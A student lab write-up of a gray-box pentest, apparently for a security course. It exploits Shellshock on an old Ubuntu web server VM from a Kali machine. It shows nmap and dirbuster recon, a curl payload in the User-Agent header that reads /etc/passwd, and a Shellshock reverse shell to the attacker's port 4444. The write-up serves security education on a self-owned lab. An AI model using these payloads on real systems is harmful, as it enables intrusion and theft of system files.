

## Part 4C-4D-4E: Doing an attack

In those part of the lab they are not much of instructions. They seem to be more of a free exploration of the tools and of pentest methodologies. 
So, we will try to attack an ubuntu machine using the kali machine.

> [!NOTE]
> In this part we will try to get access to the ubuntu machine. For a real pentest, we would need to be more exaustive and check for every possible vulnerabilities. 

### Setup

We have two virtual machines: 

- **Kali** (attacker)
        IP: `192.168.56.11`
- **Ubuntu** (victim)
        IP: `192.168.56.2`

This ubuntu machine come from a previous lab we have done in network security. We have installed a web server on it.
The lab being really old, we can guess that the web server is not up to date and that it may have some vulnerabilities.

We will consider this pentest as a gray box pentest, meaning that we have some information about the target (since we have set it up).

### Recon: Finding Services

First we will do some recon on the ubuntu machine. We will use `nmap` to scan the network and find the open ports.
We will use aggressive scan to get more information.


Let's take a close look at the informations we have:

- Port 22: SSH
        OpenSSH 6.6.1 
- Port 80: HTTP
        Apache httpd 2.4.7

We also have the kernel version of the machine: `3.x | 4.x`. And we know that the machine is running on Ubuntu.

When we go to the web server we see this lovely page:



With those service, let's try to find some vulnerabilities.

After looking using the searchsploit tool, we found this CVE: `CVE-2014-6271` ([link](https://www.exploit-db.com/search?q=Shellshock&cve=2014-6271)). This is a vulnerability in the bash shell that allows remote code execution.
This is interesting because the default bash version on ubuntu 14.04 is `4.3` (the one mentionned in the CVE).
Let's try to exploit this vulnerability.

### Vulnerability Explanation

This vulnerability is called `Shellshock`. Shellshock is a vulnerability in the Bash shell where it improperly handles specially crafted environment variables. When Bash processes an environment variable that looks like a function definition, it also executes any code that follows it. This means an attacker can inject extra commands into an environment variable, and when Bash is invoked (for example, by a CGI script in a web server), it will run those commands. Essentially, the bug allows remote code execution by exploiting how Bash parses and executes its environment.

CGI (Common Gateway Interface) is a standard that allows a web server (like Apache) to execute external programs or scripts to generate dynamic content. 

When a request is made to a URL mapped to a CGI script (usually under `/cgi-bin/`), the server sets up an environment (with variables like `HTTP_USER_AGENT`, `QUERY_STRING`, etc.) and then executes the script. The script's output (including `HTTP` headers) is then sent back to the client.

In the case of Shellshock, if the CGI script is executed using Bash, any malicious input in the environment variables (such as a crafted `User-Agent`) can trigger the vulnerability. This is why having a CGI script that invokes Bash is key to exploiting Shellshock.

Let's look for a CGI script on the target server that invokes Bash.

 ### Recon: Finding CGI Scripts

 We will use dirbuster to find the cgi scripts on the server. Confuring dirbuster is really easy:

- We specify the target URL: `http://192.168.56.2/cgi-bin/`
- We specify the wordlist we want to use: `common.txt`
- We specify the file extension we want to look for: `cgi`

 

 We have foud many result but the most interesting one is `test.cgi`. Let's try to access it.

 

 This is the default page of the cgi script, we can see that it is a bash script. This is interesting because we can try to exploit the shellshock vulnerability.

 ### Exploit

 To exploit the vulnerability we will use the following command:

 ```bash
curl -i -H 'User-Agent: () { :; }; echo; echo; /bin/bash -c "cat /etc/passwd"' \                            
http://192.168.56.2/cgi-bin/test.cgi
```

This command will send a request to the server with a crafted `User-Agent` header that exploits the Shellshock vulnerability. The payload is a Bash function definition that runs the `cat /etc/passwd` command.


It worked ! We have the content of the `/etc/passwd` file. This is a good start, we can now try to get a reverse shell.

### Reverse Shell

To get a reverse shell we will use the following command:

```bash
curl -i -H 'User-Agent: () { :; }; echo; echo; /bin/bash -c "bash -i >/dev/tcp/192.168.56.11/4444 0>&1"' \
http://192.168.56.2/cgi-bin/test.cgi
```

To create a reverse shell we will use the `bash -i` command. This command will create an interactive shell. We will redirect the input and output of the shell to a TCP connection to our machine on port `4444`.

we also need to listen on the port `4444` on our machine. We will use the following command:

```bash
nc -lvp 4444
```

here is the result:


we have successfully got a reverse shell on the ubuntu machine.

Now we can try to escalate our privileges.

### Privilege Escalation

Let's try to find out our current privileges:


We are currently running as the `www-data` user. This is the user that the apache server is running as. This is a low privilege user, we will try to escalate our privileges.

